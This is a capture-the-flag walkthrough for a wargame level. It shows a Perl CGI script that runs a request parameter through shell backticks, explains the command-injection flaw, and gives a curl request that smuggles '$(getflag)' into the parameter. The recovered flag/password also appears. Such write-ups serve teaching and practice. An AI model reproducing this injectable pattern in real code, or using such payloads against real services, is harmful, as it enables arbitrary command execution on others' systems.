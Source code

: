 

# **Level04**

### **Walk through**

For this level, we have a file level04.pl in our home. It's a Perl script. 

`cat level04.pl` gives us:

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x")); 
```
**sub x** define a subroutine. In it, there's a variable **y** that takes the value of the first argument of the function. The back ticks mean for **print** that it has to execute the shell command `echo $y 2>&1` instead of print `echo $y 2>&1`. So we can conclude that **y** aka the first param will be executed. So the idea in this case is to pass `getflag` as argument to the **x** subroutine. To do so, we'll use that command:

`curl 'localhost:4747?x=$(getflag)'`  gives us **`ne2searoevaevoem4ov4ar8ap`**

We will use it to log as level05

`su level05`
